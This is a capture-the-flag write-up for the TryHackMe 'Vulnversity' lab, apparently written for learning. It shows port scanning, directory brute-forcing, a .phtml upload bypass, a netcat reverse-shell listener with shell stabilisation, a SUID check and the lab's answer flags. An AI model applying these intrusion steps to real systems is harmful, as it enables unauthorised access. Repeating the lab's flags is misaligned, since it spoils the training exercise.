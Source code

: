 This is my writeup for the Try_Hack_Me box - Vulnversity
The box showcases web exploiation and set uid priv escalation.
 
> Pratyush Prakhar (5h1NcH@n010) - 11/01/2020

# RECONNAISSANCE

2. Scan the box, how many ports are open?- **6**
	
	1. Ran a quick scan for all ports

	`````
	sudo nmap -p- -vv 10.10.237.128
	Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-01 22:50 EST
	Initiating Ping Scan at 22:50                                                                                                                                         ............                                                                                                          
	Initiating SYN Stealth Scan at 22:50
	Scanning 10.10.237.128 [65535 ports]
	Discovered open port 22/tcp on 10.10.237.128
	Discovered open port 21/tcp on 10.10.237.128
	Discovered open port 445/tcp on 10.10.237.128
	Discovered open port 139/tcp on 10.10.237.128
	Discovered open port 3333/tcp on 10.10.237.128
	SYN Stealth Scan Timing: About 4.77% done; ETC: 23:01 (0:10:19 remaining)
	.......
	SYN Stealth Scan Timing: About 77.43% done; ETC: 23:03 (0:02:58 remaining)
	Discovered open port 3128/tcp on 10.10.237.128
	SYN Stealth Scan Timing: About 82.85% done; ETC: 23:03 (0:02:17 remaining)           
	`````

	2. Then ran a standard scan for the specific ports found - **21,22,139,445,3128,3333**

	`````
	sudo nmap -vv -sC -sV -p21,22,139,445,3128,3333 10.10.237.128
	Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-01 23:03 EST
	NSE: Loaded 153 scripts for scanning.
	.........
	Initiating SYN Stealth Scan at 23:03
	Scanning 10.10.237.128 [6 ports]
	Discovered open port 3128/tcp on 10.10.237.128
	Discovered open port 22/tcp on 10.10.237.128
	Discovered open port 445/tcp on 10.10.237.128
	Discovered open port 21/tcp on 10.10.237.128
	Discovered open port 139/tcp on 10.10.237.128
	Discovered open port 3333/tcp on 10.10.237.128
	Completed SYN Stealth Scan at 23:03, 0.24s elapsed (6 total ports)
	Initiating Service scan at 23:03
	Scanning 6 services on 10.10.237.128
	Completed Service scan at 23:03, 22.30s elapsed (6 services on 1 host)
	NSE: Script scanning 10.10.237.128.
	NSE: Starting runlevel 1 (of 3) scan.
	Initiating NSE at 23:03
	Completed NSE at 23:03, 5.94s elapsed
	NSE: Starting runlevel 2 (of 3) scan.
	Initiating NSE at 23:03
	Completed NSE at 23:03, 1.21s elapsed
	NSE: Starting runlevel 3 (of 3) scan.
	Initiating NSE at 23:03
	Completed NSE at 23:03, 0.01s elapsed
	Nmap scan report for 10.10.237.128
	Host is up, received reset ttl 61 (0.17s latency).
	Scanned at 2020-11-01 23:03:20 EST for 30s
	PORT     STATE SERVICE     REASON         VERSION                                                                                                                                                               
	21/tcp   open  ftp         syn-ack ttl 61 vsftpd 3.0.3
	22/tcp   open  ssh         syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey:
	|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDYQExoU9R0VCGoQW6bOwg0U7ILtmfBQ3x/rdK8uuSM/fEH80hgG81Xpqu52siXQXOn1hpppYs7rpZN+KdwAYYDmnxSPVwkj2yXT9hJ/fFAmge3vk0Gt5Kd8q3CdcLjgMcc8V4b8v6UpYemIgWFOkYTzji7ZPrTNlo4HbDgY5	
	/F9evC9VaWgfnyiasyAT6aio4hecn0Sg1Ag35NTGnbgrMmDqk6hfxIBqjqyYLPgJ4V1QrqeqMrvyc6k1/XgsR7dlugmqXyICiXu03zz7lNUf6vuWT707yDi9wEdLE6Hmah78f+xDYUP7iNA0raxi2H++XQjktPqjKGQzJHemtPY5bn
	|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHCK2yd1f39AlLoIZFsvpSlRlzyO1wjBoVy8NvMp4/6Db2TJNwcUNNFjYQRd5EhxNnP+oLvOTofBlF/n0ms6SwE=
	|   256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqh93OTpuL32KRVEn9zL/Ybk+5mAsT/81axilYUUvUB
	139/tcp  open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn syn-ack ttl 61 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
	3128/tcp open  http-proxy  syn-ack ttl 61 Squid http proxy 3.5.12
	|_http-server-header: squid/3.5.12
	|_http-title: ERROR: The requested URL could not be retrieved
	3333/tcp open  http        syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
	| http-methods:
	|_  Supported Methods: OPTIONS GET HEAD POST
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Vuln University
	Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
	Host script results:
	|_clock-skew: mean: 1h39m57s, deviation: 2h53m12s, median: -3s
	| nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
	| Names:
	|   VULNUNIVERSITY<00>   Flags: <unique><active>
	|   VULNUNIVERSITY<03>   Flags: <unique><active>
	|   VULNUNIVERSITY<20>   Flags: <unique><active>
	|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
	|   WORKGROUP<00>        Flags: <group><active>
	|   WORKGROUP<1d>        Flags: <unique><active>
	|   WORKGROUP<1e>        Flags: <group><active>
	| Statistics:
	|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
	|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
	|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
	| p2p-conficker: 
	|   Checking for Conficker.C or higher...
	|   Check 1 (port 14476/tcp): CLEAN (Couldn't connect)
	|   Check 2 (port 46485/tcp): CLEAN (Couldn't connect)
	|   Check 3 (port 37058/udp): CLEAN (Failed to receive data)
	|   Check 4 (port 47439/udp): CLEAN (Failed to receive data)
	|_  0/4 checks are positive: Host is CLEAN or ports are blocked
	| smb-os-discovery: 
	|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
	|   Computer name: vulnuniversity
	|   NetBIOS computer name: VULNUNIVERSITY\x00
	|   Domain name: \x00
	|   FQDN: vulnuniversity
	|_  System time: 2020-11-01T23:03:41-05:00
	| smb-security-mode: 
	|   account_used: guest
	|   authentication_level: user
	|   challenge_response: supported
	|_  message_signing: disabled (dangerous, but default)
	| smb2-security-mode: 
	|   2.02: 
	|_    Message signing enabled but not required
	| smb2-time: 
	|   date: 2020-11-02T04:03:42
	|_  start_date: N/A
	`````

	3. What version of the squid proxy is running on the machine? - **3.5.12**

	4. How many ports will nmap scan if the flag -p-400 was used? - Basically translates to -p1-400. - **400**

	5. Using the nmap flag -n what will it not resolve? - can be found in **man page of nmap** - **DNS**

	6. What is the most likely operating system this machine is running? - Leaked from the smb enum script - **Ubuntu**

	7. What port is the web server running on? - Service running on Apache Web Server - **3333**


# GOBUSTER
	
2. What is the directory that has an upload form page? - **/internal/** - Upload

**GOBUSTER OUTPUT**
`````
gobuster dir -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u "http://10.10.237.128:3333"

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.237.128:3333
[+] Threads:        100
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/01 23:57:56 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
..........
===============================================================
2020/11/01 23:58:22 Finished
===============================================================
`````

# Web Exploit

**Images**

1. What common extension seems to be blocked? - **.php**

3. What extension is allowed? - **.phtml**

4. Stabilizing shell

`````
kali@kali:~/Desktop/Try_Hack_Me/Vulnversity$ nc -lnvvp 8888
listening on [any] 8888 ...
connect to [10.2.44.183] from (UNKNOWN) [10.10.25.49] 44380
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
01:32:54 up 25 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python
/usr/bin/python
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@vulnuniversity:/$ ^Z
[1]+  Stopped                 nc -lnvvp 8888
kali@kali:~/Desktop/Try_Hack_Me/Vulnversity$ stty raw -echo
kali@kali:~/Desktop/Try_Hack_Me/Vulnversity$ nc -lnvvp 8888
                                                                                                                                                                                                                
www-data@vulnuniversity:/$ l                                   
`````

5. What is the name of the user who manages the webserver? - **bill**

`````
www-data@vulnuniversity:/home$ ls
bill
`````

6. What is the user flag? - **8bd7992fbe8a6ad22a63361004cfcedb**

`````
www-data@vulnuniversity:/home/bill$ ls
user.txt
www-data@vulnuniversity:/home/bill$ cat user.txt 
8bd7992fbe8a6ad22a63361004cfcedb
`````

# Privilege Escalation


**LINPEAS OUTPUT**
`````
====================================( Interesting Files )=====================================
[+] SUID - Check easy privesc, exploits and write perms
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
-rwsr-xr-x 1 root   root        44K May  7  2014 /bin/ping6
.......
-rwsr-xr-x 1 root   root        23K Jan 15  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-sr-x 1 root   root        97K Jan 29  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root   root       419K Jan 31  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root   root       645K Feb 13  2019 /bin/systemctl
`````

1. On the system, search for all SUID files. What file stands out? - **/bin/systemctl**



2. What is the root flag? - **a58ff8579f0a9270368d33a9966c7fd5**

